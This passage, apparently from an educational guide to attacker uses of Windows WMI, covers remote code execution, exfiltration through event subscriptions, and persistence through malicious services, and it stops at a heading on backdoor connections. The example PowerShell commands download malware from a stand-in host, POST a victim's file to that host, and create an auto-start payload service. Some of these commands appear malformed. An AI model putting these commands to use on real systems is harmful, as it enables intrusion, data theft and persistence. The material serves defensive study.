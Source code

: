 **What it is**: Attackers use WMI to remotely execute arbitrary code on another system without requiring traditional administrative access.

**How it works**:

-   WMI allows attackers to trigger remote execution of code, bypassing traditional defenses like firewalls and remote access tools.

**Example**:

-   An attacker remotely runs a malicious executable or PowerShell script using WMI.
-   **Command**:
-   `Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c http://malicious-url.com/malware.exe`

# WMI Event Filters for Data Exfiltration

**What it is**: Attackers use WMI event filters to capture system or user data and send it to an external server for exfiltration.

**How it works**:

-   WMI event subscriptions are set up to monitor system events (e.g., file creation) and send sensitive data to an attacker-controlled server.

**Example**:

-   An attacker sets up a WMI event subscription to trigger on file creation and then sends a copy of sensitive files to an external server.
-   **Command**:

`$eventFilter = [wmiclass]"\\localhost\root\cimv2:__EventFilter" $eventConsumer = [wmiclass]"\\localhost\root\cimv2:__EventConsumer" $action = "powershell.exe -Command Invoke-WebRequest -Uri 'http://malicious-url.com/upload' -Method POST -Body (Get-Content 'C:\Users\victim\Documents\important.txt')"`

# WMI for Manipulating Services (Persistence)

**What it is**: Attackers use WMI to create or manipulate services that ensure persistence or further exploitation on the compromised system.

**How it works**:

-   WMI can be used to create new services or manipulate existing ones, allowing attackers to execute malicious code on system startup or other specified conditions.

**Example**:

-   An attacker uses WMI to create a new service that runs a malicious payload each time the system starts.
-   **Command**:
-   `$service = Get-WmiObject -Class Win32_Service -Filter "Name='MyMaliciousService'" $service.Create("C:\Windows\Temp\payload.exe", "MaliciousService", "auto", "localSystem", "C:\Windows\Temp\payload.exe")`

# WMI for Creating Backdoor Network Connections
